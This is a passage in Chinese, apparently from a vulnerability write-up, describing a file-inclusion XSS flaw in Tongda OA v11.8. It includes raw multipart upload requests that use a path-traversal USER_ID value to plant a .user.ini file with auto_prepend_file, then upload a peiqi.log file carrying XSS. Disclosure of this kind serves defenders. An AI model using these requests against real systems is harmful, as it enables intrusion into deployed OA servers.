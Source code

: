 ```

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/.user** 为上传路径

```
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
```

这里拼接后上传就变成了 **.user.ini**

![](通达OA-v11.8-后台文件包含XSS漏洞.assets/16273635156262012.jpg)

这里再上传 XSS文件 **peiqi.log** 被包含进去

![](通达OA-v11.8-后台文件包含XSS漏洞.assets/1627363516057322.jpg)